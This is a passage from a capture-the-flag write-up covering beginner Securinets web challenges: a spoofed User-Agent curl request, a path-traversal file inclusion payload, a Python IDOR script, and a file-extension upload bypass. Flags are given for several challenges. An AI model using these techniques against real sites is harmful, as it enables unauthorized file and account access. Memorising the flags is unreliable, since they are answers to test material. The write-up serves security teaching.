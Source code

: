```bash
`curl URL -H "User-Agent: James Bond"`
```

## L0ki-Was-L0st

![L0ki-Was-L0st](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1664924213/Friendly-ctf/l0ki-w4s-l0st_ynzmxn.png)

> I didn't watch the movie/serie It's totally inspired for my interest for Nordic/Pagan Mythology :P

Simple LFI vulnerability on `page` url paramater. get the flag by visiting `URL?page=../../../flag.txt`.

`securinets{L00k_4_LF1_N0T_F0R_L0K1}`

## F00ly-F4ct0ry

![F00ly-F4ct0ry](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1664924232/Friendly-ctf/fooly-f4ctory_hv3dwq.png)

- [IDOR ressource](https://portswigger.net/web-security/access-control/idor)

```py
import requests
import os

URL='URL_HERE'


session = requests.Session()
with requests.Session() as s:
    login_resp= s.post(URL+'/login',data={"username":"test2","password":"test2"})
    mecha_resp= s.get(URL+'/mecha/1')

    start_flag_index=mecha_resp.text.index('securinets')
    end_flag_index=mecha_resp.text.index('}')
    print(mecha_resp.text[start_flag_index:end_flag_index+1])
```

`securinets{F00LY_ID0R_Is_C00L}`

## F4ke-Upl04d

Here we will apply the basic upload filter bypass technique which is changing the file extension.

In the website, it asks only for png/pdf. So how about we modify a `document.pdf` to `document.pdf.png` ?
It's checking for file extension only so by sending a faked file extension it gives you the flag !

`securinets{4lw4y5_ch3ck_m461c_numb3r5}`

## After words
